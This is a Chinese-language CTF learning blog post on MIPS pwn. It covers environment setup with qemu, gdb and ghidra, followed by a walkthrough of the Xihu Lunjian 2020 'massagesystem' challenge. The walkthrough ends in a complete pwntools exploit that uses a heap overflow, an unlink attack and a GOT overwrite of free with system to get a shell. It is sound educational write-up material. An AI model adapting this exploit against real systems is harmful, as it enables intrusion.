 ```yaml
---
layout:     post
title:      mips架构 pwn入门之路
subtitle:   学习mips架构下pwn题目的调试
date:       2020-11-2
author:     X1ng
header-img: mips.jpg
catalog: true
tags:
    - pwn
    - 学习笔记


---
```


## 环境搭建

网上大师傅们都讲的很详细了

我是看着[这个师傅的博客](https://ray-cp.github.io/archivers/MIPS_Debug_Environment_and_Stack_Overflow)装的环境，之前ida插件mipsrop没有安装成功，又被自己蠢到了，插件的py文件要放在包目录中的MacOS下的plugins文件夹中，而不是打开包目录中的Plugins文件夹

### 安装ghidra

再[官网](https://ghidra-sre.org/)下载（需要java环境）

直接用命令行打开ghidraRun文件即可打开

[使用详解](https://zhuanlan.zhihu.com/p/59637690)



## 例题复现

### 西湖论剑2020线上赛 massagesystem

题目提供文件

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkazeivmkxj30x205e3yw.jpg)

`./run.sh`可以直接运行

例行检查

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkayvuy8w5j312y08iwh5.jpg)

32位的mips小端序程序，保护全关

调试

可以一个shell直接打开

```shell
qemu-mipsel-static -g 1234 -L ./ ./ma
```

或者与pwntools联动

```python
from pwn import*
import sys

context.binary = "ma"
context.arch='mips'
context.log_level = "debug"

if sys.argv[1] == "r":
  p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
  p = process(["qemu-mipsel-static", "-L", "./", "./ma"])
else:
  p = process(["qemu-mipsel-static", "-g", "1234", "-L", "./", "./ma"])
```

另一个shell

```
gdb-multiarch ./test 
target remote 127.0.0.1:1234
```



用ghidra打开

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkazjq2bzgj31da0u0qe0.jpg)

漏洞在modify函数里

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkazjwggrsj313g0qcjt6.jpg)

可以看到在编辑的时候溢出了8个字节，正好可以控制下一个chunk的prev_size和size，可以用unlink将一个chunk改为储存堆地址的note_list的前面，之后再泄露got表中的libc地址、修改got表，即可getshell

由于不能使用heap、bin等指令查看堆分配情况，可以在分配堆的函数后下一个断点，查看返回的堆地址

exp:

``` python
from pwn import*
import sys

context.binary = "ma"
context.arch='mips'
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
    p = process(["qemu-mipsel-static", "-L", "./", "./ma"])
else:
    p = process(["qemu-mipsel-static", "-g", "1234", "-L", "./", "./ma"])

li = 0x0411830
free_got = 0x4117B4


ru=lambda x:p.recvuntil(x)
rc=lambda x:p.recv(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda : p.interactive()

def add(sz,con):
	ru('>>')
	sl('1')
	ru('length:')
	sl(str(sz))
	ru('info:')
	sl(con)

def delete(idx):
	ru('>>')
	sl('2')
	ru('user:')
	sl(str(idx))

def show(idx):
	ru('>>')
	sl('4')
	ru('show:')
	sl(str(idx))

def edit(idx,con):
	ru('>>')
	sl('3')
	ru('edit:')
	sl(str(idx))
	ru('info:')
	sl(con)

add(0x80,'aaa')
add(0x80,'bbb')
add(0x80,'ccc')
add(0x20,'/bin/sh')
edit(0,p32(0)+p32(0x81)+p32(li-12)+p32(li-8)+'a'*0x70+p32(0x80)+p32(0x88))
delete(1)
edit(0,p64(0)+p32(li)+p32(0x80)+p32(free_got)+p32(0x8))

show(1)
p.recvuntil('info: ')
libc_base = u32(p.recv(4)) - 0x56B68
system = libc_base + 0x5F8F0

edit(1,p32(system))
delete(3)


ia()


```

